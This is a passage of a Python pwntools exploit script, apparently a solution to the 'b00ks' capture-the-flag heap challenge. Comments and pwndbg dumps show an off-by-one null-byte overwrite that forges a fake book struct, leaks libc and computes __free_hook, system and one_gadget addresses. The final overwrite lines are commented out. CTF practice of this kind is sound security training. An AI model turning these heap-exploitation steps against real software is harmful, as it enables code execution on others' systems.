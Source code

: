 ```python
  p.recvuntil("Enter author name: ")
  p.sendline(name)

def debug():
  gdb.attach(p)
  pause()

# create_auhter_name('A'*30)
# create('a',10,'b',10)
# debug()
# pwndbg> search "AAAAA"
# b00ks           0x55818f92b040 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
# b00ks           0x55818f92b045 'AAAAAAAAAAAAAAAAAAAAAAAAA'
# b00ks           0x55818f92b04a 'AAAAAAAAAAAAAAAAAAAA'
# b00ks           0x55818f92b04f 'AAAAAAAAAAAAAAA'
# b00ks           0x55818f92b054 'AAAAAAAAAA'
# b00ks           0x55818f92b059 0x6000004141414141 /* 'AAAAA' */
# warning: Unable to access 16000 bytes of target memory at 0x7f801f492d04, halting search.
# pwndbg> x/16g 0x55818f92b040
# 0x55818f92b040: 0x4141414141414141  0x4141414141414141
# 0x55818f92b050: 0x4141414141414141  0x0000414141414141
# 0x55818f92b060: 0x000055818f9bc060  0x0000000000000000

p = process('./b00ks')
# p = remote('node3.buuoj.cn',29670)
create_auhter_name('A'*32)
create('a', 0xd0, 'b', 32)
# here need to calcculate the value(0xd0),need to make name's true size is 0xe0
create('c',0x21000, 'd', 0x21000)

book1_id, book1_name, book1_des, author = print_book_detail(1)
library_book = u64(author[0][32:32+6].ljust(8,'\x00'))
log.success('library_book = %#x',library_book)

fake_book1 = p64(1)+ p64(library_book+0x38) + p64(library_book + 0x40) + pack(0xffff)
# id,name,descripton,len(descritpion)
edit(book1_id[0],fake_book1)
change_auther_name('A'*32)
# cover the library_book's lowest bytes to 0x00,and make it point to book1's descritption, and print our fake book1 to leak libc
# debug()

book2_id, book2_name, book2_des, author = print_book_detail(1)
book2_name = u64(book2_name[0].ljust(8,'\x00'))
book2_des = u64(book2_des[0].ljust(8,'\x00'))
log.success('book2_name = %#x, book2_des = %#x'%(book2_name,book2_des))
# debug()

# 0x7fdc89c6f000-0x7fdc896e4000=0x58b000
libc_base = book2_des - (0x58b000 + 0x10)
free_hook = libc_base + libc.sym['__free_hook']
system_addr = libc_base + libc.sym['system']
binsh = libc_base + libc.search("/bin/sh").next()
one_gadget = libc_base + 0x45216
# execve("/bin/sh", rsp+0x30, environ)
# constraints:
#   rax == NULL
log.info('libc_base = %#x, free_hook = %#x, one_gadget = %#x'%(libc_base,free_hook,one_gadget))

# edit(1, p64(free_hook)*2)
# edit(2, p64(one_gadget))
# payload = p64(binsh)+p64(free_hook)

```